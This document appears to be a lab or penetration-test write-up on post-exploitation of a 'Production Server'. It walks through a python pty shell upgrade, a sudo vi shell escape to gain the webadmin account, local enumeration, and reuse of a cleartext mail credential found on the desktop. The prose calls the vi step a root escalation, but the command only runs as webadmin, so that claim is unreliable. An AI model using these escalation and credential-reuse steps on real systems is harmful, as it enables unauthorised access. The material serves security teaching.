 # Post Exploit - Production Server

- [Post Exploit - Production Server](#post-exploit---production-server)
  - [Shell Upgrade](#shell-upgrade)
  - [Privilege Escalation](#privilege-escalation)
  - [Local Enumeration](#local-enumeration)

---

## Shell Upgrade

First get a pty session using python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty -echo raw
fg
reset
export TERM=xterm
```

<br/>

## Privilege Escalation

Check `sudo` privilege of the current user `www-data`:

```
sudo -l
```

![picture 21](images/e70e18b78f7d2735a4b010fd671dace697330d9620f2afba5e740a100f804b81.png)  

`/usr/bin/vi` can be used with sudo privilege as webadmin without supplying a password.

<br/>

To escalate to root privilege, we can use the following command:

```
sudo -u webadmin /usr/bin/vi -c ':!/bin/bash' /dev/null
```

![picture 22](images/55ee44798c95fbb527eb0c36a6781d7eae9de1bfe069a4a694f9f091316de617.png)  

<br/>

---

## Local Enumeration

Checking the `auth.log.1` file, an internal was found to have connected to the Production-Server as `webadmin`:

![picture 26](images/624067548c2b8b147cc0fdd4dacc3acbeb0a633c585645421d755ba69ccceea5.png)  

Checking the interface, there is only one available - likely the Production-Server is placed in the DMZ:

```
ifconfig
```

![picture 27](images/35d95c16f46cbb447f49b9c996fac4c89e1808ecf783e5927523ce3832dddad6.png)  



Checking the path `/home/webadmin/Desktop`, there is a file `Mail-Configuration` with cleartext credential:

![picture 23](images/0f0452c0410f06e747e313faf2dbe6099f85ac433a8515ff6a66e20688205ff9.png)  


```
UserName: iyer
Passwd: Iyer@123
Port: 110,143
```

Try to reuse this credential to login as iyer:

```
su iyer
```

![picture 24](images/df14688229fcfbedd616f90e9fb8cd21d3cf6ec7d2cfe6f149fec0078782f3da.png)  

As shown we get the privilege of the user `iver`. However, it does not have any sudo privilege:

![picture 25](images/42309eb52074285bd7dc0254c0bb1a738106b4bf27c4ab870bb08a5acbbc895c.png)  

